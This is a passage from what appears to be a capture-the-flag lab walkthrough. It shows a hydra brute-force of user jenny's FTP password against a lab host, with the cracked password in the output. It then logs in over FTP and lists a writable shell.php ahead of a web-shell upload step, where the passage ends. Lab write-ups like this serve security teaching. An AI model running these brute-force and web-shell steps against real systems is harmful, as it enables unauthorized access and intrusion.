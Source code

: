 * As we can see there are three open ports:

| Port | Service |
| ---- | ------- |
| 21   | ftp     |
| 80   | http    |

* We know that the user `jenny` changed the password.
* Let's brute force it using `hydra`.

```
$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.108.36
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-07 17:02:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.108.36:21/
[21][ftp] host: 10.10.108.36   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-07 17:03:04 
```

### No answer needed

###

### Change the necessary values inside the web shell and upload it to the webserver

* Let's login through FTP using `jenny` as the username and `987654321` as the password.

```
$ ftp jenny@10.10.108.36
Connected to 10.10.108.36.
220 Hello FTP World!
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

* Let's look around to find something important.

```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
```
